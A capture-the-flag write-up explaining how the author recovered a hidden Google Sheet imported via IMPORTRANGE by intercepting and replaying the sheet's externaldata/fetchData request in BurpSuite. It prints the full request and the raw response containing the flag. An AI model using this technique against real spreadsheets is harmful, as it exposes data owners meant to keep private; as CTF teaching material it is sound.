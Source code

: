 # digits-of-pi-2 (70 solves, 474 points)

## Description:
This [spreadsheet](https://docs.google.com/spreadsheets/d/1NX9nUMrpaxGqChQ7ROzITDtlxaz5McSsN5BMs-o5k-M/edit) is Secure™

## Solution:
In this challenge instead of the sheet being on the same Google Sheet, it is imported using the IMPORTRANGE function. 

![alt text](formula.png "Formula")

However, the entire sheet is imported and then filtered on the google Sheet we have access to. So we could intercept the request to get the entire secret sheet. I will use BurpSuite to do this.

Looking through the requests in the HTTP reuqest history I saw this one which looked suspicious(the externalDataBathRequest confirmed this)

```
POST /spreadsheets/d/1NX9nUMrpaxGqChQ7ROzITDtlxaz5McSsN5BMs-o5k-M/externaldata/fetchData?id=1NX9nUMrpaxGqChQ7ROzITDtlxaz5McSsN5BMs-o5k-M&sid=166fbbcbfe3b9199&vc=0&c=0&w=0&flr=0&smv=97&includes_info_params=true HTTP/2

Host: docs.google.com

...

externalDataBatchRequest=%7B%221%22%3A%5B%7B%221%22%3A%22customFunctionMap%22%2C%222%22%3A%22%22%7D%2C%7B%221%22%3A%22protectedRangeInfo%22%2C%222%22%3A%22%22%7D%2C%7B%221%22%3A%22dbExecutionInfo%22%2C%222%22%3A%22%22%7D%2C%7B%221%22%3A%22%7B1%3D4%2C7%3D%7B1%3D44%231MD4O3pFoQY59_YoW_ZzxRUg-rBgHFlAaYxnNABmqc3A%2C2%3D3%23A%3AZ%7D%7D%22%2C%222%22%3A%22%22%7D%5D%7D&esid=166fbbcbfe3b9199
```
Sending this the repeater tab and sending it, I got the following response with the flag:
```
HTTP/2 200 OK

Content-Type: application/json; charset=utf-8

X-Robots-Tag: noindex, nofollow, nosnippet

X-Content-Type-Options: nosniff

Cache-Control: no-cache, no-store, max-age=0, must-revalidate

Pragma: no-cache

Expires: Mon, 01 Jan 1990 00:00:00 GMT

Date: Sun, 20 Jun 2021 03:24:00 GMT

X-Frame-Options: SAMEORIGIN

Content-Security-Policy: frame-ancestors 'self'

X-Xss-Protection: 1; mode=block

Server: GSE

Alt-Svc: h3=":443"; ma=2592000,h3-29=":443"; ma=2592000,h3-T051=":443"; ma=2592000,h3-Q050=":443"; ma=2592000,h3-Q046=":443"; ma=2592000,h3-Q043=":443"; ma=2592000,quic=":443"; ma=2592000; v="46,43"



[null,[[null,"customFunctionMap",null,[null,null,null,null,""]],[null,"protectedRangeInfo","[]\n",[null,0.0,null,null,"d751713988987e9331980363e24189ce"]],[null,"dbExecutionInfo",null,[null,0.0,null,null,"e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855"]],[null,"{1\u003d4,7\u003d{1\u003d44#1MD4O3pFoQY59_YoW_ZzxRUg-rBgHFlAaYxnNABmqc3A,2\u003d3#A:Z}}","[null,1000,26,[[null,0,[[null,0,[null,[null,0]\n,[null,3,null,0]\n]\n]\n,[null,1,[null,[null,0]\n,[null,3,null,999440]\n]\n]\n,[null,2,[null,[null,0]\n,[null,2,\"Source:\"]\n]\n]\n]\n]\n,[null,1,[[null,0,[null,[null,0]\n,[null,3,null,1]\n]\n]\n,[null,1,[null,[null,0]\n,[null,3,null,999333]\n]\n]\n,[null,2,[null,[null,0]\n,[null,2,\"https://blogs.sas.com/content/iml/2015/03/12/digits-of-pi.html\"]\n,\"https://blogs.sas.com/content/iml/2015/03/12/digits-of-pi.html\"]\n]\n]\n]\n,[null,2,[[null,0,[null,[null,0]\n,[null,3,null,2]\n]\n]\n,[null,1,[null,[null,0]\n,[null,3,null,1000306]\n]\n]\n]\n]\n,[null,3,[[null,0,[null,[null,0]\n,[null,3,null,3]\n]\n]\n,[null,1,[null,[null,0]\n,[null,3,null,999964]\n]\n]\n]\n]\n,[null,4,[[null,0,[null,[null,0]\n,[null,3,null,4]\n]\n]\n,[null,1,[null,[null,0]\n,[null,3,null,1001093]\n]\n]\n]\n]\n,[null,5,[[null,0,[null,[null,0]\n,[null,3,null,5]\n]\n]\n,[null,1,[null,[null,0]\n,[null,3,null,1000466]\n]\n]\n]\n]\n,[null,6,[[null,0,[null,[null,0]\n,[null,3,null,6]\n]\n]\n,[null,1,[null,[null,0]\n,[null,3,null,999337]\n]\n]\n]\n]\n,[null,7,[[null,0,[null,[null,0]\n,[null,3,null,7]\n]\n]\n,[null,1,[null,[null,0]\n,[null,3,null,1000207]\n]\n]\n]\n]\n,[null,8,[[null,0,[null,[null,0]\n,[null,3,null,8]\n]\n]\n,[null,1,[null,[null,0]\n,[null,3,null,999814]\n]\n]\n]\n]\n,[null,9,[[null,0,[null,[null,0]\n,[null,3,null,9]\n]\n]\n,[null,1,[null,[null,0]\n,[null,3,null,1000040]\n]\n]\n]\n]\n,[null,36,[[null,14,[null,[null,0]\n,[null,2,\"m4k3_sur3_t0_r3str1ct_y0ur_imp0rtr4ng3s\"]\n]\n]\n]\n]\n]\n]\n",[null,1.624158716438E9,null,null,"�/�~�F��6\f�\f����",1.624156916287E9,null,null,[]]]]]
```
## Flag:
`
flag{m4k3_sur3_t0_r3str1ct_y0ur_imp0rtr4ng3s}`